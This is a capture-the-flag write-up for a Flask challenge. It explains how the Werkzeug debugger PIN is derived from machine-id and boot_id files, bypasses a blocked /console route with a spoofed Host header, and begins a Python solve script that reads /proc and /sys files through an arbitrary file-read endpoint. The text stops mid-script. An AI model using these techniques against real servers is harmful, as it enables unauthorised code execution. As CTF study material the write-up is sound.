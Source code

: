 ```python
                ) as rk:
                    guid: str | bytes
                    guid_type: int
                    guid, guid_type = winreg.QueryValueEx(rk, "MachineGuid")

                    if guid_type == winreg.REG_SZ:
                        return guid.encode()

                    return guid
            except OSError:
                pass

        return None

    _machine_id = _generate()
    return _machine_id
```

On Linux, this function will return a value synthesized from 3 files `/etc/machine-id`, `/proc/sys/kernel/random/boot_id`, `/proc/self/cgroup`, if any file doesn't exist it will pass through. In the debug section I received the bytes string `0346c4d6-6fe8-4660-ab0c-1af691987a03` from the file `/proc/sys/kernel/random/boot_id`

![image](https://hackmd.io/_uploads/HyQv9XlFlx.png)

Ok so I already have the formula to generate the PIN code. Now let's proceed with the exploit. There's an issue when I access `/console` on the server, it returns 400

![image](https://hackmd.io/_uploads/rJrQwUlFle.png)

After searching for a while, I can bypass this by changing the host header to 127.0.0.1

![image](https://hackmd.io/_uploads/H1ULw8xteg.png)

Since the console section needs to have a host header, we need to get the debug console session. The steps to get it I will put in the solve script:

```python
import requests
import hashlib
from itertools import chain
from urllib.parse import quote
import re
import json

URL = "https://my-flask-app-56ova46xhc3j.chals.sekai.team:1337/"

session = requests.Session()

mac_address = ""
machine_id = ""
secret = ""
pin = ""
debug_session = ""

def get_mac_address():
    filename = "/sys/class/net/eth0/address"
    r = session.get(URL + f"view?filename={filename}")
    global mac_address
    mac_address = str(int(r.text.strip().replace(":",""), 16))
    print(f"[*] Get MAC address successfully: {mac_address}")

def get_machine_id():
    filename = "/proc/sys/kernel/random/boot_id"
    r = session.get(URL + f"view?filename={filename}")
```